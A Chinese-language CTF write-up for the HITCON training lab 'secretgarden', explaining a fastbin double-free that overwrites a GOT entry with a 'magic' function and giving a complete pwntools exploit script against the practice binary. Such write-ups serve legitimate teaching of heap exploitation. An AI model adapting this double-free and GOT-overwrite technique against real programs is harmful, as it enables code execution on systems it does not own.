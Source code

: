 ```yaml
---
title: lab12_secretgarden
date: 2019-07-19
categories: 
- hitcon_trainning
tags: heap double_free
---
```


# double_free

## 场景
- `fastbin`（一般是）
- `free`后没有将指针置空

## 流程

![process](https://c-ssl.duitang.com/uploads/item/201907/19/20190719134950_ARVQR.png)

# 思路

利用double_free更改某个函数的got表为magic函数的地址。

## 注意点

- `fake_chunk` 的size域要合适，只用考虑一个字中的低4个字节。无需考虑和8对齐，因为最后3个bits是AMP标志。   

    和got表相近的地方，有一个   
    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/19/20190719140152_QJXWk.png)

    写全的话，是`0x0000000000601e28`。这里的`\x60`刚好可以满足上述要求。
    - 可以看到这个地方的地址是`0x602000`,那么`\x60`的地址是 `0x602000 - 0x8 + 0x3` 也就是`0x601ffb`，size域的整个字节的地址是`0x6012002`。  
    那么`fake_chunk` 的地址就是`0x601ffa`。

- 由于改的是got表，所以要用六个字节对齐0x8。  

- magic的地址按理是随便选一个，但是`_dl_runtime_resolve_xsavec`并不在got表中。
    ![](https://c-ssl.duitang.com/uploads/item/201907/19/20190719142205_5ArV5.png)   
    ![](https://c-ssl.duitang.com/uploads/item/201907/19/20190719142341_LNmMn.png)   
    我已开始把他也覆盖成magic的地址，然后就循环执行`magic`。 覆盖成0就正常在执行`puts`的时候执行了`magic`。
    
    - 这里我找到了github上一篇<a href="https://github.com/lattera/glibc/blob/master/sysdeps/x86_64/dl-trampoline.S">glibc的源码</a>, 宏定义了很多有关`_dl_runtime_resolve`的东西    
    ![](https://c-ssl.duitang.com/uploads/item/201907/19/20190719143552_WAT5L.png)   
    为什么每个都能define`_dl_runtime_resolve`一下？？貌似也和动态链接库有关。我猜可能是调用函数的函数。<a href = "https://build.opensuse.org/package/view_file/openSUSE:Leap:15.0/glibc/dl-runtime-resolve-xsave.patch?expand=0">资料</a>，看不懂，心累。

## getshell?

看起来是可以的，但可能就是麻烦一点。
- double_free到fake_chunk,用show打印某个got表项值，计算libc基址。
- double_free改got表   
麻烦在怎么找一个合适的size，能既不覆盖需要打印的原有got表也能够通过free的检查……

# exp

```python
from pwn import * 
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def add(length,name,color):
    sh.sendlineafter('choice : ','1')
    sh.sendlineafter('name :',str(length))
    sh.sendlineafter('flower :',name)
    sh.sendlineafter('flower :',color)

def remove(index):
    sh.sendlineafter('choice : ','3')
    sh.sendlineafter('garden:',str(index))

def show():
    addr = u64(sh.recvuntil('\x7f')[-6] + '\x00\x00')
    return addr

if __name__ == "__main__":
    sh = process('./secretgarden')
    elf = ELF('./secretgarden')
    libc = elf.libc

    add(0x50,'a' * 8, 'a')
    add(0x50,'b' * 8, 'b')

    remove(0)
    remove(1)
    remove(0)

    fake_chunk = 0x601ffa
    magic = elf.symbols['magic']
    payload = 'A' * 6 + p64(0) + p64(magic) * 2

    pause()
    add(0x50,p64(fake_chunk),'a')
    add(0x50,'b' * 8,'a')
    add(0x50,'a' * 8,'a')
    add(0x50,payload,'a')

    sh.interactive()
    sh.close()

```